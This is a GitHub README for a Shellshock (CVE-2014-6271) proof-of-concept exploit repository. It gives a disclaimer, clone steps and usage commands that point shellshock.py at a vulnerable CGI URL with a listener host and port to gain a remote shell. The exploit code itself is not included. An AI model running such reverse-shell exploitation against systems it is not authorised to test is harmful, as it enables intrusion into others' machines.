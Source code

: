 # Shellshock Exploit (CVE-2014-6271)

#### Exploit
## <u>Description</u>
This repository contains an exploit for a vulnerability that affects unix-based systems. Please note that this is merely a proof-of-concept script created for educational purposes and should be used responsibly.

This exploit is designed to demonstrate how the shellshock attack works and how it could be used to gain shell access to a system through a maliciously crafted request header.

### <u>Disclaimer</u>
This repository is intended for educational purposes only. Do not use this code or any information contained within for malicious purposes. Always follow ethical guidelines and respect the law.


Usage:

	python3 shellshock.py [Vulnerable URL] [LHOST] [LPORT]
Example:

	python3 shellshock.py http://vulnerablewebsite.com/cgi-bin/test.cgi 109.876.654.321 1234

Prerequisites:
- A local development environment
- Python installed
- To run this exploit, you can follow these steps:

Clone this repository to your local machine.
```
git clone https://github.com/AlissoftCodes/Shellshock.git
```

Navigate to the project directory.
```
cd Shellshock
```

Run the shellshock.py script.
```
python3 shellshock.py http://vulnerable-website.com/cgi-bin/test.cgi listening_interface_IP listening_port
```

###### Please remember that this exploit should never be used against real software or systems you're not authorized to test. Unauthorized access or any malicious activity is illegal.

#### <u>License</u>
_This exploit is released under the MIT License. You can find more information about this in the LICENSE file._


# Author: Alisson Faoli

#### Github: https://github.com/AlissoftCodes
#### LinkedIn: https://linkedin.com/in/alisson-faoli



<b>If you have any questions or concerns about this exploit, please feel free to contact the author</b>
